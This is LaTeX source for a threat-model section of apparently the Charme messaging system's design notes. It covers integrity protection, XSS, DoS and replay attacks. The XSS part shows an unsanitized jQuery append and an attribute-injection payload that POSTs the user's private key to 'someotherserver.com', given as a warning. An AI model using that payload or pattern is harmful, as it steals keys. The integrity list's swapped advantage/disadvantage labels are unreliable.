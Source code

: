 \documentclass{scrartcl}
\begin{document}
   \subsubsection{Attacks on Integrity Protection}
   Certain information, such as the Name/UserID pairs of a conversation must be distributed with integrity protection using either the private key of each receiver or the conversation key. Asymmetric private keys used for signing the message data have the following advantages and disadvantages in contrast to the symmetric conversation key.
   
   \textbf{Using the private key }
   \begin{enumerate}
   \item (Advantage) Slower (Factor ca. 1000)
    \item (Disadvantage) No attackers inside a conversation manipulating username/userId pairs
   \end{enumerate}
   
  
   \subsubsection{XSS}
   One of the most critical attack vectors in Charme is Cross Site Scripting as with this technique private keys can be stolen.
   Therefore it is important to sanitize all displayed data from other people and servers. Never trust the server. For example imaging data is a JSON Object returned by the server:
   
       \begin{lstlisting}
\$("html").append("<a href='"+data.href+"'>TEST</a>");
    \end{lstlisting}
    
    If the server does not provide a hyperlink for data.href, but rather something like:
          \begin{lstlisting}
#'  onload='$.post("someotherserver.com", {key: theprivatekey})
     \end{lstlisting}
     this is extremly dangerous. Therefore always sanitize data from the server!!!
\subsubsection{DOS}
Attackers can flood small servers with a lot of requests.
       \subsubsection{Replay attacks}
          Server can provide old public/private keys which have been compromised earlier for the user .
\end{document}
